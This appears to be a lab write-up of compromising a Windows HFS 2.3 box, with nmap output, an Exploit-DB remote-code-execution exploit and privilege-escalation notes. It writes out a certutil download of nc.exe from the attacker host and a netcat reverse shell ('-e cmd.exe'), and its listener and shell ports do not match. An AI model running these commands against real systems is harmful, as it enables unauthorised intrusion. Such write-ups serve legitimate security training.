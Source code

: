 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Sat Jul  9 21:40:08 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up (0.073s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   74.28 ms 10.10.14.1
2   74.34 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul  9 21:42:08 2022 -- 1 IP address (1 host up) scanned in 120.47 seconds
```
\
**Initial Shell Vulnerability Exploited:**\
Since port 80 was open, I got into the main page and could see that it was powered by HttpFileServer (HFS) 2.3:\
<img src="images/optimum/hfs_mainpage.png" alt="hfs_mainpage" width="600" height="400"/> </br>
I found an exploit for this version on [Exploit-DB](https://www.exploit-db.com/exploits/49584) and modified the exploit to my IP Address and port, and it worked: </br>
<img src="images/optimum/initial_shell_poc.png" alt="initial_shell_poc" width="1000" height="400"/> </br>\
**Vulnerability Explanation:**  The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server
(aka HFS or HTTP Fileserver) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via
a %00 sequence in a search action, and the exploit abuses it </br>
**Initial Shell Screenshot:** </br>
<img src="images/optimum/initial_shell_poc2.png" alt="initial_shell_poc2" width="650" height="120"/> </br> </br>
<!--Privilege Escalation:-->
# Privilege Escalation:
I used [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), and copied all of the system information with the Command: ```systeminfo```, saved it into a file on my Kali, and ran the script with the command:
```bash
python2 windows-exploit-suggester.py --database 2022-07-17-mssb.xls
--systeminfo /home/kali/Downloads/boxes/optimum/sysinfo.txt
```
I found out that this machine was vulnerable to MS16-098: </br>
![windows_exploit_suggester](images/optimum/windows_exploit_suggester.png) </br>
**MS16-098:** </br>
The exploit didn't work and my powershell session got stuck, So i tried using netcat, to send myself a proper CMD shell: </br>
**Kali Linux:** </br>
First, I copied the nc.exe binary to my working directory: ```cp /usr/share/windows-binaries/nc.exe . ``` </br>
Second, I hosted a python http server with: ```python -m http.server 80``` and on another window, started a netcat listener: ```nc -nlvp 1234``` </br>
**Windows Target Machine:** </br>
I used certutil to transfer the file from my Kali to the Windows machine:
```bash
certutil -urlcache -split -f "http://10.10.14.3/nc.exe" nc.exe
```
Finally, I ran the netcat with: ```nc.exe 10.10.14.3 4444 -e cmd.exe``` </br> </br>
<img src="images/optimum/netcat_shell.png" alt="netcat_shell" width="700" height="200"/> </br> </br>

